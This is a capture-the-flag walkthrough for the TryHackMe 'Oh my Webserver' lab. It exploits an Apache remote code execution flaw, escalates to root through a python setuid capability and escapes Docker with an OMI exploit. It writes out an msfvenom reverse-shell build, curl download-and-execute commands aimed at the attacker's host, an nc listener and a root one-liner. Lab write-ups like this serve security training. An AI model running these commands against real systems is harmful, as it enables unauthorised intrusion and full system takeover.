

oh my webserver
THM: Oh my Webserver
Enumeration
Nmap Scanning
Website Enumeration
Browser

Foothold
We search for vulnerabiliteis of the Apache version.
We will use the same to get access the server.
Thus, we confirm we have Remote Code Execution on the server. We can use this to get a reverse shell connection to our Kali machine.
We have only a place holder inside single quotes to give commands, so complex reverse shell commands will not work. We used msfvenom to create a linux tcp_shell executible that would connect to my kali machines IP on port 8888.
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.17.5.85 LPORT=8888 -f elf -o tcp_shell
Then, we host this tcp_shell executible in our local kali machine's python webserver.
python3 -m http.server 80
Next, we use the following payload in our shell script exploit.
We first checked if curl was installed or not.
Then, we downloaded our hosted file & saved it in /tmp folder & finally viewed to verify the process.
./50383.sh targets.txt /bin/sh 'curl -L http://10.17.5.85/tcp_shell -o /tmp/shell; ls /tmp'
We start a reverse shell listener on port 8888
rlwrap nc -lvnp 8888
Finally, we execute the shell to get reverse connection.
./50383.sh targets.txt /bin/sh 'chmod +x /tmp/shell;/tmp/shell'

We got initial access to the server.
Examining further in the server we see that we might be inside a docker environment, seeing the IP.
We need to elevate our user privilege from daemon user. We checked /etc/passwd file, there are no other users. We need to elevate ourselves to the docker root user.
Docker Privilege Escalation
We checked for capabilites and found the following. We will exploit it to get root.
getcap -r / 2>dev/null
Thus, python binary has the setuid capability enabled.
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
We can get the user flag in the root directory.
Privilege Escalation
Escaping the docker environment
Now, we are a root user of the docker. By checking the ipconfig we came to conclusion that the main server might also be connected to the docker environment say 172.17.0.1
To test this hypothesis, we get nmap static binary from the following & send it to the server using python webserver.
https://gitlab.com/pentest-tools/static-binaries/-/blob/master/binaries/linux/x86_64/nmap?ref_type=heads
Then, we run the namp binary in the target machine.
curl -L http://10.17.5.85/nmap -o nmap
chmod +x nmap
./nmap -sn 172.17.0.0/24
We will run scans on the target now.
./nmap -sT -T4 -p- 172.17.0.1
We searched for “port 5986 service exploit” in google & found the following exploit link.
https://github.com/CyberMonitor/CVE-2021-38648
We got the python code & ran it as recommended. We uploaded the python code using python webserver. Then ran the python code from the docker mahcine to get RCE inside the main server as root. Thus breaking out of the docker environment.
Thanks !!